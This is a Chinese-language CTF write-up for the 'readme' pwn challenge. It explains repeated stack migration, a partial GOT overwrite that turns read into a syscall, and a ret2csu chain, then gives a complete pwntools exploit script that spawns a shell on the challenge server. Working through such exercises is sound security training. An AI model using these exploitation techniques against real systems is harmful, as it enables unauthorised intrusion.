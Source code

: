 ## readme
### Solution
本題的binary單純從輸入讀`0x30`個bytes到長度為`0x20`的buffer中，總共可以overflow的大小為`0x8`，只能往前放一個rbp + return address，但由於main的尾端是`read(0, [rbp-0x20], 0x30)`，因此我們能利用這段作為gadget進行migrartion。

由於`leave`後`rsp`會等於`rbp`，而寫入從`rbp-0x20`開始，因此輸入的有效的部份仍然只有後面的`0x10`的大小(2個gadget)，但我們可以先將部份的ROP chain依次填到前面的0x20個bytes，接著不斷的反覆migration，每次寫的位置增加0x20個bytes，如此我們就能將完整的ROP chain寫到buf1上。

因此，從`.bss`尾端切兩個buffer，`buf1`共`0x160` bytes、中間間隔`0x20` bytes，接著是`buf2`共`0x20` bytes，`buf2`只用來做migration，

接著不斷地在buf1 + 0x20 * i (i是次數)和buf2之間migrate，利用前20個bytes不斷將整個ROP chain全部寫到buf1後，再跳至buf1執行ROP chain。

接著，ROP chain的部份，可用的gadget有rdi和rsi，沒有syscall，printf對stack的需求過大也無法用來leak libc，但是本題只開啟Partial RELRO，所以我們可以partial overwrite GOT來使read@plt指到syscall(將GOT LSB的`0x20`蓋為`0x2e`)。

有了syscall後作法其實很多，可以先以write leak出libc，接著讀進`system("sh")`，但也可以直接使用execve("/bin/sh", 0, 0)，這邊使用了後者作法。

後者作法的難在要使`rax`為59，但沒有`rax`的gadget，且`read@got`已被修改，所以這裡使用`write(1, buf1, 0x59)`來改變rax。 這處使用了一個在`__libc_csu_init`中的code segment，如下
```asm
  400690:       4c 89 ea                mov    rdx,r13
  400693:       4c 89 f6                mov    rsi,r14
  400696:       44 89 ff                mov    edi,r15d
  400699:       41 ff 14 dc             call   QWORD PTR [r12+rbx*8]
  40069d:       48 83 c3 01             add    rbx,0x1
  4006a1:       48 39 eb                cmp    rbx,rbp
  4006a4:       75 ea                   jne    400690 <__libc_csu_init+0x40>
  4006a6:       48 83 c4 08             add    rsp,0x8
  4006aa:       5b                      pop    rbx
  4006ab:       5d                      pop    rbp
  4006ac:       41 5c                   pop    r12
  4006ae:       41 5d                   pop    r13
  4006b0:       41 5e                   pop    r14
  4006b2:       41 5f                   pop    r15
  4006b4:       c3                      ret    
```
我們利用下面的gadget可以控制rbx, rbp, r12, r13, r14, r15，接著return到上面的部份就可以控制到rdi, rsi, rdx以及function address，因此這裡連續使用了兩次這個segment，第一次執行write(1, buf1, 59)，第二次執行execve("/bin/sh", 0, 0)。

由於第一次執行完後會繼續往下執行，其中有一個分支
```
add rbx, 0x1
cmp rbx, rbp
jne 400690
```
為了使其fallthrough，`rbx`和`rbp`必須考慮constraint：
* `[rbx + 1] = rbp`

call的目標為：
* `[r12 + rbx * 8] = read@plt(syscall)`

最後我們可以計算出：
* `r12 = read@plt - rbx * 8`
* `rbx = rbp - 1`

而fallthrough之後有一行`add rsp, 0x8`，因此ROP chain必須在中間再加8個bytes的padding，最後執行execve時就不用考慮fallthrough的constrain，令`rbx = 0`，`r12 = read@plt`即可。

### script
```python
#!/usr/bin/env python3
from pwn import *

context.update(arch='amd64', os='linux')
binary = ELF('readme')
rop = ROP(binary)

#r = process("readme")
r = remote('csie.ctf.tw', 10135)

buf1 = (binary.bss() & ~0xfff) + 0x1000 - 0x200
buf2 = (binary.bss() & ~0xfff) + 0x1000 - 0x20

buf1_rop = [buf2, # rbp = buf2
            # partial overwrite read@got
            # 0x20 -> 0x2e (syscall)
            # read(0, read@got, 0x30)
            rop.rsi.address, binary.got[b'read'], 0,
            binary.plt[b'read'],
            # makes rax = write(1, buf1, 59) = 59(execve)
            # constraint : [rbx + 1]  = [rbp]
            #              [r12 + rbx * 8] = read_got
            0x4006aa,
            buf2 - 1,                 # rbx
            buf2,                     # rbp
binary.got[b'read'] - (buf2 - 1) * 8, # r12
            59,                       # r13 -> rdx
            buf1,                     # r14 -> rsi
            1,                        # r15 -> rdi
            # execve("/bin/sh", 0, 0)
            0x400690,
            0,                        # padding (add rsp, 0x8)
            0,                        # rbx
            buf2,                     # rbp
            binary.got[b'read'],      # r12
            0,                        # r13 -> rdx
            0,                        # r14 -> rsi
            buf2 - 0x20,              # r15 -> rdi
            0x400690,
            0, 0, 0                   # padding
            ]

# 1. Migrate stack to buf1 + 0x20
payload = cyclic(32).encode()
payload += p64(buf1 + 0x20) # rbp = buf1 + 0x20
payload += flat([0x40062b]) # read(0, buf1, 0x30)
r.send(payload)

# 2. Keep migrate, until whole ROP chain write to buf1
for i in range(len(buf1_rop)//4):
    payload = flat(buf1_rop[i * 4:(i + 1) * 4])
    payload += p64(buf2)
    payload += flat([0x40062b]) # read(0, buf2, 0x30)
    r.send(payload)

    if i == len(buf1_rop)//4 - 1:
        break
    payload = b"A" * 0x20
    payload += p64(buf1 + 0x20 * (i + 2))
    payload += flat([0x40062b]) # read(0, [buf1 + 0x20 * (i+1)], 0x30)
    r.send(payload)

# 3. migrate stack back to buf1
payload = flat(["/bin/sh\x00", 0, 0, 0])
payload += p64(buf1)
payload += flat([rop.leave.address])
r.send(payload)

# 4. value to overwrite got
r.send(b'\x2e')

r.interactive()
```
